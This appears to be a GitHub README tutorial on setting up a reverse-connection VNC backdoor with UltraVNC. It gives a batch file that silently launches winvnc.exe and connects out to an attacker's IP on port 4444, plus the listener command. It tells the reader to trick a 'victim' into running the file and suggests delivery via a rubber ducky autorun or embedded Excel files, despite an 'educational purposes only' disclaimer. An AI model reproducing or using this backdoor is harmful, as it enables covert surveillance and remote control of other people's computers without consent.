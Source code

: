 # VNC_Backdoor

This focuses on how you can create a simple backdoor with a reverse connection using UltraVNC

## Installation

Use the [url](https://uvnc.com/downloads/ultravnc/159-ultravnc-1-4-3-6.html) to install UltraVNC in the Spy's Computer.
![image](https://github.com/user-attachments/assets/86f9fb03-70f3-423d-ad7d-4b176137d669)
![image](https://github.com/user-attachments/assets/953416e5-db3d-4423-8232-f6ddbd4f0088)




## Usage

### SPY'S Computer

After installation, go to the folder where you installed UltraVNC and click on winVNC.exe
![image](https://github.com/user-attachments/assets/8eacdacc-2fd0-4926-8fc2-fbde0acd0a1a)



Then click on uvnc_settings.exe

![image](https://github.com/user-attachments/assets/215b36d2-0589-46bb-947f-230ed2610db6)

Create a password for VNC and View-Only Password.
![image](https://github.com/user-attachments/assets/7e8c165b-45c6-4509-a391-b205ce2eb45f)


Then create a folder in the same directory for the client/victim. 

The name could be anything but for this assessment I would create a folder called "client".
Copy the below files to the client directory.
![image](https://github.com/user-attachments/assets/36f7da7d-b951-40d8-b23f-a679dd1b96d6)
![image](https://github.com/user-attachments/assets/cb265e88-a2bd-4dfc-8f36-823666883855)




Now go to cmd and find your IP address using the command:
```
ipconfig
```
![image](https://github.com/user-attachments/assets/f0098f79-e72b-4262-813c-890a64f92072)




Now in the client folder create a batch file with the following code:
```
@echo off
start winvnc.exe -run
timeout /t 1 >nul
start winvnc.exe -connect "yourIPAddress":4444
```


![image](https://github.com/user-attachments/assets/e22cb124-2476-4dd3-a8be-bcf855e2de30)



Note:"I have used my ip address in the screenshot"
* This works in the order where when the client clicks the bat file winvnc.exe runs 
* The timeout function allows the app to open completely
* Then the VNC app tries to connect to the spy's ip address on port 4444

Then go to the directory where ultraVNC is installed and open cmd in the same folder.

Type the following commands in CMD

```
vncviewer -listen 4444
```
![image](https://github.com/user-attachments/assets/dc50538c-eadf-4a56-8b6b-8f0c79efe155)



This would create a server that is listening on port 4444 for any connections.

You would get a tray icon on your system's tray when you run the command.
![image](https://github.com/user-attachments/assets/833334d4-3e02-446a-a04d-29c6b8271b83)


### Victim's Computer

If We successfully manage to share the client folder that we created earlier to be downloaded by the victim,
and if we manage to make make the user click on the .bat file, the victim's computer would connect to our server allowing us to see his activity and to control it.

For the sake of this tutorial I have used an instance of windows in virtualBox
![image](https://github.com/user-attachments/assets/07f16e22-bb03-450b-9bfe-2aad14087ca9)




## Proof of Effectiveness

Spy's PC's Screen
![image](https://github.com/user-attachments/assets/9fc32be4-490f-4c2e-bc8f-d8473c3daa31)



Victim's PC's Screen
![image](https://github.com/user-attachments/assets/7d515335-85e9-47b9-a4db-ba7a92788c00)


## Conclusion
THis can really be effictive if this script was used in a rubber ducky with autorun script to mess with your mate's computer for **PRANKS**.
This can also be used by embeding it with excel files.
The usage of this can really depend on the skill of the person.

## Disclamer
I do not condone in helping anyone in stealing data and violating the privacy of anyone. All of this is for educational purposes only.


